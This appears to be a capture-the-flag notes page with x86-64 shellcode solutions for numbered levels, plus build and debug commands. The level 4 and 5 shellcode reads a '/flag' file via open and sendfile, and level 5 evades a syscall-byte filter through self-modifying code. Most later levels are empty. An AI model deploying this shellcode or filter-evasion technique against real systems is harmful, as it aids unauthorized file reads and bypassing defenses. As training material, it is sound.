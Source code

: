 # level
[x64.syscall.sh](https://x64.syscall.sh/): Your cheat sheet for syscalls. A glance here, and you're always ahead.

[syscalls manpage](https://man7.org/linux/man-pages/man2/syscalls.2.html): Understand not just the calls, but their deeper implications.

[felix cloutier](https://www.felixcloutier.com/x86/): Dive into the heartbeats of instructions, ensuring you're always in step.

[x86s reference](http://ref.x86s.net/coder64.html): Decode the bytes into moves, turning the tables on any challenge.

![图片](https://github.com/user-attachments/assets/38ff999a-07f2-4e20-be0b-c2b334a53c96)

![图片](https://github.com/user-attachments/assets/8fe712d1-8a9f-4666-a2d1-87269b321048)


```sh
# compile to elf
gcc -nostdlib -static shellcode.s -o sc-elf
```
```sh
# raw bytes
objcopy --dump-section .text=sc-raw sc-elf
```
```sh
# to debug
strace ./sc-elf
gdb ./sc-elf
```
![图片](https://github.com/user-attachments/assets/de1bf64d-7fd0-48af-bfdd-fa25089b2fbd)

```sh
gcc -nostdlib -static zzz.s -o yyy && objcopy --dump-section .text=xxx yyy
```

## 4
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
syscall

push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
syscall

push 0
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
syscall

.section .data

```
## 5
```s
.intel_syntax noprefix
.globl _start

.section .text

_start:

push 0x616c662f
mov dword ptr [rsp+4],0x67  # mov rbx,0x00000067616c662f; push rbx
push rsp
pop rdi                     # mov rdi,rsp
push 0
pop rsi                     # xor rsi,rsi
push 2
pop rax                     # mov rax,2
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

push 1
pop rdi                     # mov rdi,1
push rax
pop rsi                     # mov rsi,rax
push 0
pop rdx                     # xor rdx,rdx
push 60
pop r10                     # mov r10,60
push 40
pop rax                     # mov rax,40
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

push 0
pop rdi                     # xor rdi,rdi
push 60
pop rax                     # mov rax,60
inc byte ptr [rip]
.byte 0x0e,0x05             # syscall

.section .data

```
## 6
```s

```
## 7
```s

```
## 8
```s

```
## 9
```s

```
## 10
```s

```
## 11
```s

```
## 12
```s

```
## 13
```s

```
## 14
```s

```
